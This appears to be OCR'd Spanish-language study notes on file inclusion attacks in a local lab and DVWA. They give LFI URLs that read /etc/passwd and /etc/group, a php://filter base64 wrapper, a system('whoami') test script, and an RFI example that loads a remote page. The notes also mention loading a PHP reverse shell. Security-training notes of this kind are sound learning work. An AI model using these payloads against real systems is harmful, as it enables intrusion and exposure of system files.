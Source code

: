     view-source:http://localhost/example2.php?file=file:///etc/passwd
    view-source:http://localhost/example.php?FILE=file:///etc/group
    view-source:http://localhost/example.php?FILE=file:///proc/sched_debug

    vamos a ver encodificacion en base64 con Wrappers


    creamos un archivo example3.php
    GNU nano 5.4			example3.php
    ?php
      system( 'whoami' ); //esto es un nivel de scriptkiddie y mas una prueba
    ?

    view-source:http://localhost/example.php?FILE=example3.php
    www-data

    nos esta ejecutando como usuario del sistema

       /var/www/html  sudo lsof -i:80			 ✔  1m 41s   22:50:32
    COMMAND PID	USER FD TYPE DEVICE SIZE/OFF NODE NAME
    COMMAND PID
    USER FD TYPE DEVICE SIZE/OFF NODE NAME


    #Para ver el contenido del archivo a nivel de php
    view-source:http://localhost/example.php?FILE=php://filter/convert.base64-encode/resource=example3.php
    PD9waHAKCQlzeXN0ZW0oICd3aG9hbWknICk7IC8vZXN0byBlcyAgdW4gbml2ZWwgZGUgc2NyaXB0a2lkZGllIHkgbWFz
    #Aora deco en base64 en la terminal



    #############################################################################

    #1) DVWA : File Inclusion Attack – Low
      .RFI

      Low File Inclusion Source

      <?php

      // The page we wish to display
      $file = $_GET[ 'page' ];

      ?>

    *Para un ataque de RFI, puede colocar fácilmente una URL de sitio web diferente después de 'page =' 
    en la URL. Al igual que en la imagen a continuación, puede ver que la nueva página se carga 
    si cambia la última parte de la URL a 'page = https: //google.com'.*

    #http://localhost/vulnerabilities/fi/?page=https://google.com


      si es vulnerable a "RFI" entonces facilmente cargaria el servidor de >==google.com==<

    Lo que significa que si tiene un archivo php malicioso, puede poner la ruta del archivo en la URL y cargarlo en la página.
    Puede crear fácilmente un archivo php malicioso (enlazar o revertir el shell) y cargar ese archivo desde el navegador web de la víctima

    #reverse shell
    #cheat sheet =======> "php","bash","netcat" hay mucho mas pero dejo tres que son fundamental saber
